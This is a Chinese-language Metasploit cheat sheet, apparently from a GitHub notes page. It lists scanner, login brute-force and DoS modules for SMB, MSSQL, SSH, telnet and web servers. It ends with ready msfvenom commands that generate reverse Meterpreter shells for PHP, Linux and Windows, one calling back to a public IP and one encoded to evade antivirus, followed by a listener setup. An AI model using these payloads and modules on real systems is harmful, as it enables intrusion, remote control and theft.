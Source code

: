 # msfvenom
 metasploit 更新后就移除了 msfencode 以及 msfpayload

 http://www.freebuf.com/sectool/69362.html
 http://blog.51cto.com/biock/1658668
 http://www.secist.com/archives/1070.html
 http://blog.csdn.net/lijia111111/article/details/64124693

# 扫描模块

auxiliary/scanner/portscan
scanner/portscan/ack
scanner/portscan/ftpbounce
scanner/portscan/syn
scanner/portscan/tcp
scanner/portscan/xmas
smb 扫描
smb 枚举 auxiliary/scanner/smb/smb_enumusers
返回 DCERPC 信息 auxiliary/scanner/smb/pipe_dcerpc_auditor 扫描 SMB2 协议 auxiliary/scanner/smb/smb2
扫描 smb 共享文件 auxiliary/scanner/smb/smb_enumshares 枚举系统上的用户 auxiliary/scanner/smb/smb_enumusers
SMB 登录 auxiliary/scanner/smb/smb_login
SMB 登录 use windows/smb/psexec
扫描组的用户 auxiliary/scanner/smb/smb_lookupsid 扫描系统版本 auxiliary/scanner/smb/smb_version
mssql 扫描(端口 tcp1433udp1434)
admin/mssql/mssql_enum MSSQL 枚举
ACK 防火墙扫描 FTP 跳端口扫描 SYN 端口扫描
TCP 端口扫描 TCP"XMas"端口扫描
admin/mssql/mssql_exec admin/mssql/mssql_sql scanner/mssql/mssql_login scanner/mssql/mssql_ping
另外还有一个 mssql_payload 的模块 利用使用的 smtp 扫描
MSSQL 执行命令
MSSQL 查询
MSSQL 登陆工具
测试 MSSQL 的存在和信息
smtp 枚举 auxiliary/scanner/smtp/smtp_enum
扫描 smtp 版本 auxiliary/scanner/smtp/smtp_version
snmp 扫描
通过 snmp 扫描设备 auxiliary/scanner/snmp/community
ssh 扫描
ssh 登录 auxiliary/scanner/ssh/ssh_login
ssh 公共密钥认证登录 auxiliary/scanner/ssh/ssh_login_pubkey 扫描 ssh 版本测试 auxiliary/scanner/ssh/ssh_version
telnet 扫描
telnet 登录 auxiliary/scanner/telnet/telnet_login
扫描 telnet 版本 auxiliary/scanner/telnet/telnet_version tftp 扫描
扫描 tftp 的文件 auxiliary/scanner/tftp/tftpbrute
ftp 版本扫描 scanner/ftp/anonymous

ARP 扫描
auxiliary/scanner/discovery/arp_sweep
扫描 UDP 服务的主机 auxiliary/scanner/discovery/udp_probe 检测常用的 UDP 服务 auxiliary/scanner/discovery/udp_sweep sniffer 密码 auxiliary/sniffer/psnuffle
snmp 扫描 scanner/snmp/community
vnc 扫描无认证扫描 scanner/vnc/vnc_none_auth
web 服务器信息扫描模块
Module auxiliary/scanner/http/http_version
Module auxiliary/scanner/http/open_proxy
Module auxiliary/scanner/http/robots_txt
Module auxiliary/scanner/http/frontpage_login
Module auxiliary/admin/http/tomcat_administration Module auxiliary/admin/http/tomcat_utf8_traversal
Module auxiliary/scanner/http/options
Module auxiliary/scanner/http/drupal_views_user_enum Module auxiliary/scanner/http/scraper
Module auxiliary/scanner/http/svn_scanner
Module auxiliary/scanner/http/trace
Module auxiliary/scanner/http/vhost_scanner

Module auxiliary/scanner/http/webdav_internal_ip Module auxiliary/scanner/http/webdav_scanner
Module auxiliary/scanner/http/webdav_website_content 文件目录扫描模块
Module auxiliary/dos/http/apache_range_dos
Module auxiliary/scanner/http/backup_file
Module auxiliary/scanner/http/brute_dirs
Module auxiliary/scanner/http/copy_of_file
Module auxiliary/scanner/http/dir_listing
Module auxiliary/scanner/http/dir_scanner
Module auxiliary/scanner/http/dir_webdav_unicode_bypass Module auxiliary/scanner/http/file_same_name_dir
Module auxiliary/scanner/http/files_dir
Module auxiliary/scanner/http/http_put
Module auxiliary/scanner/http/ms09_020_webdav_unicode_bypass Module auxiliary/scanner/http/prev_dir_same_name_file
Module auxiliary/scanner/http/replace_ext
Module auxiliary/scanner/http/soap_xml
Module auxiliary/scanner/http/trace_axd
Module auxiliary/scanner/http/verb_auth_bypass

web 应用程序漏洞扫描模块
Module auxiliary/scanner/http/blind_sql_query Module auxiliary/scanner/http/error_sql_injection Module auxiliary/scanner/http/http_traversal
Module auxiliary/scanner/http/rails_mass_assignment Module exploit/multi/http/lcms_php_exec
# php rev
msfvenom -p php/meterpreter_reverse_tcp LHOST=119.29.226.211 LPORT=2341 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

# linux
msfvenom -p payload/linux/x86/meterpreter/reverse_tcp  LHOST=192.168.0.120 LPORT=4433 -f elf >shell.elf

# win
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=192.168.203.139 LPORT=2341 -f exe > abc.exe

# 监听
use exploit/multi/handler
set payload 
sey LHOST
set LPORT

